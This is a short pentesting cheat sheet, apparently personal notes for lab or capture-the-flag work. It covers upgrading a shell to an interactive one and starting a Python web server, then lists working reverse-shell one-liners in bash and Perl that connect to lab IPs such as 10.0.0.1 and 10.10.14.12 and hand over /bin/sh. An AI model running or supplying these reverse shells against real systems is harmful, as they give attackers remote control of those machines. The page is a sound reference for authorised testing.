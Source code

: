 Background the shell with Ctrl+z.

```
stty raw -echo
```

```
fg
```


Now the shell should pop up, if its not interactive with autocomplete run:

```
bash
```

You can also make this nicer with cols and rows if needed.


### [](#header-3)Python webserver

Python2

```
python -m SimpleHTTPserver
```


Python3

```
python3 -m http.server
```

### [](#header-3)Reverse Shell

This shells is mostly from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" target="_blank">here</a>. This site is a very good referense for reverse shells.

Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'
```

```
0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```
Perl

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python2
